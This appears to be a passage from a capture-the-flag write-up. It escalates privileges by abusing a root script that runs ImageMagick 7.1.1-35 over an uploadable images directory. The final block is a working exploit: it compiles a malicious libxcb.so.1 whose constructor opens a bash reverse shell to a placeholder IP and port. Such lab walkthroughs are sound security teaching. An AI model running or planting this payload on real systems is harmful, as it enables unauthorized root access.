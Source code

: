 
```ad-important
This script automates the extraction of metadata from all `.jpg` files in the `/opt/app/static/assets/images` directory and logs the results to `metadata.log`.

1. **Navigate to Images Directory**:  
    `cd /opt/app/static/assets/images`  
    Moves to the directory containing image files.
    
2. **Reset Log File**:  
    `truncate -s 0 metadata.log`  
    Clears the existing `metadata.log` (or creates an empty file).
    
3. **Extract Metadata**:  
    `find ... | xargs /usr/bin/magick identify >> metadata.log`
    
    - Uses `find` to list all `.jpg` files recursively.
        
    - Runs `magick identify` (ImageMagick) to extract metadata (e.g., dimensions, format, EXIF data).
        
    - Appends the results to `metadata.log`.
```

So, knowing this, we can check the version of the binary:

```
/usr/bin/magick --version

Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```


Let's search for an exploit regarding that version:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250225144440.png)

We got it, an Arbitrary Code Execution in the `7.1.1-35` version of ImageMagick, let's read the PoC

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250225145206.png)

So, we need to go to `/opt/app/static/assets/images` and upload the following, for example, I changed it a bit to get a root as shell but we can simply change the command to give us `root.txt`:



```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'");
    exit(0);
}
EOF
```
